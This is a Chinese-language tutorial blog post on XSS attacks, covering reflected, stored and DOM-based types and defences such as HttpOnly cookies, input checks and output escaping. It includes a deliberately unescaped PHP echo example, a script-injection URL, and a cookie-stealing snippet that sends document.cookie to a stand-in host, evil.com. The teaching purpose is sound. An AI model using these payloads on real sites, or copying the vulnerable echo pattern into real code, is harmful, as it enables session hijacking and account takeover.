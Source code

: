 ```yaml
---
title: Web安全系列——XSS攻击
date: 2017-11-11 16:57:30
categories: "Web安全" 
tags:
---
```


>前段时间在学习Web安全方面的知识，对这方面有了进一步的了解，决定写文章记录下来，只是对Web安全方面知识的一些总结，没有太多的深度。  


## XSS攻击简介  
跨站脚本攻击(XSS),英文全称 Cross Site Script, 是Web安全头号大敌。  
XSS攻击，一般是指黑客通过在网页中**注入恶意脚本**，当用户浏览网页时，恶意脚本执行，控制用户浏览器行为的一种攻击方式。其中，XSS攻击通常分为反射型XSS、存储型XSS、DOM Based XSS三种。可以通过以下例子看看XSS攻击是如何产生的。
<!-- more -->

## 一个简单的例子

本地服务器的的/xssTest 目录下，有一个test.php文件，代码如下：
````
	<?php
		$userName=$_GET['userName'];					//获取用户输入的参数
		echo "<b>".$userName."</b>";					//直接输出用户的参数给前端页面
	?>
````
正常情况下，用户提交的姓名可以正确显示在页面上，不会构成XSS攻击，比如，当用户访问以下URL：

	http://localhost/xssTest/test.php?userName=jack

页面会显示：  
![正常显示](https://wx4.sinaimg.cn/mw690/857afa84gy1flfq8adc1hj20dx03y3yk.jpg)  
可以看到，用户在URL中输入的参数正常显示在页面上。  



然后，我们尝试在URL中**插入JavaScript代码**，如：  
````	
	http://localhost/xssTest/test.php?userName=<script>window.open(http://www.baidu.com)</script>
````
则页面会显示：  
![插入恶意脚本](https://wx4.sinaimg.cn/mw690/857afa84gy1flfq8q6g7bj20ok03h0ss.jpg)    

可以看到，页面没有把userName后面的内容显示出来，而且打开了一个新的标签页,原因是在URL中带有一段打开另一标签页的恶意脚本。  
这个例子虽然简短，但体现了最简单的XSS攻击的完整流程。  

## XSS攻击类型
根据攻击的方式，XSS攻击可以分为三类：反射型XSS、存储型XSS、DOM Based XSS。

**反射型XSS**也被称为非持久性XSS,这种攻击方式把XSS的Payload写在URL中，通过浏览器直接“反射"给用户。这种攻击方式通常需要诱使用户点击某个恶意链接，才能攻击成功。  
**存储型XSS**又被称为持久性XSS,会把黑客输入的恶意脚本存储在服务器的数据库中。当其他用户浏览页面包含这个恶意脚本的页面，用户将会受到黑客的攻击。一个常见的场景就是黑客写下一篇包含恶意JavaScript脚本的博客文章，当其他用户浏览这篇文章时，恶意的JavaScript代码将会执行。  
**DOM Based XSS** 是一种利用前端代码漏洞进行攻击的攻击方式。前面的反射型XSS与存储型XSS虽然恶意脚本的存放位置不同，但其本质都是利用后端代码的漏洞。  
反射型和存储型xss是服务器端代码漏洞造成的，payload在响应页面中，DOM Based中，payload不在服务器发出的HTTP响应页面中，当客户端脚本运行时（渲染页面时），payload才会加载到脚本中执行。

## XSS攻击的危害
我们把进行XSS攻击的恶意脚本成为XSS Payload。XSS Payload的本质是JavaScript脚本，所以JavaScript可以做什么，XSS攻击就可以做什么。  
一个最常见的XSS Payload就是盗取用户的Cookie,从而发起Cookie劫持攻击。Cookie中，一般会保存当前用户的登录凭证，如果Cookie被黑客盗取，以为着黑客有可能通过Cookie直接登进用户的账户，进行恶意操作。  
如下所示，攻击者先加载一个远程脚本：  
````
	http://localhost/xssTest/test.php?userName=<scriipt src=http://www.evil.com/evil.js></script>  
````
而真正的XSS Payload，则写在远程脚本evil.js中。在evil.js中，可以通过下列代码窃取用户Cookie：
````
	var img=document.createElement("img");
	img.src="http://www.evil.com/log?"+escape(document.cookie);  
	document.body.appendChild(img);  
````
这段代码插入了一张看不见的图片，同时把document.cookie作为参数，发到远程服务器。黑客在拿到cookie后，只需要替换掉自身的cookie，就可以登入被盗取者的账户，进行恶意操作。  
一个网站的应用只需要接受HTTP的POST请求和GET请求，就可以完成所有的操作，对于黑客而言，仅通过JavaScript就可以完成这些操作。  
## 防御  
其实如今一些流行的浏览器都内置了一些对抗XSS的措施，比如Firefox的CSP、IE 8内置的XSS Filter等。除此之外，还有以下防御手段
### HttpOnly
HttpOnly最早是由微软提出，并在IE6中实现的，至今已逐渐成为一个标准。浏览器将禁止页面的JavaScript访问带有HttpOnly 属性的Cookie。以下浏览器开始支持HttpOnly:  


- Microsoft IE 6 SP1+  
- Mozilla FireFox 2.0.0.5+  
- Mozilla Firefox 3.0.0.6+  
- Google Chrome  
- Apple Safari 4.0+  
- Opera 9.5+

一个Cookie的使用过程如下：  
Step1: 浏览器向服务器发送请求，这时候没有cookie。   
Step2: 服务器返回同时，发送Set-Cookie头，向客户端浏览器写入Cookie。  
Step3: 在该Cookie到期前，浏览器访问该域名下所有的页面，都将发送该Cookie。  
而HttpOnly是在Set-Cookie时标记的。      
### 输入检查
常见的Web漏洞，如XSS、SQL注入等，都要求攻击者构造一些特殊的字符串，而这些字符串是一般用户不会用到的，所以进行输入检查就很有必要了。  
输入检查可以在用户输入的**格式检查**中进行。很多网站的用户名都要求是字母及数字的组合如“abc1234”，其实也能过滤一部分的XSS和SQL注入。但是，这种在客户端的限制很容易**被绕过**，攻击者可以用JavaScript或一些请求工具，直接构造请求，想网站注入XSS或者SQL。所以，除了在客户端进行格式检查，往往还需要在后端进行二次检查。客户端的检查主要作用是阻挡大部分误操作的正常用户，从而节约服务器资源。  
### 对输出转义
在输出数据之前对潜在的威胁的字符进行编码、转义是防御XSS攻击十分有效的措施。
为了对抗XSS,在HtmlEncode中至少转换以下字符：

< 转成 `&lt`;

`>` 转成 `&gt`;

& 转成 `&amp`;

" 转成 `&quot`;

' 转成 `&#39`  

----------


参考链接：  
[https://www.zhihu.com/question/26628342](https://www.zhihu.com/question/26628342 "DOM-based XSS 与存储性 XSS、反射型 XSS 有什么区别？")

《白帽子讲Web安全》
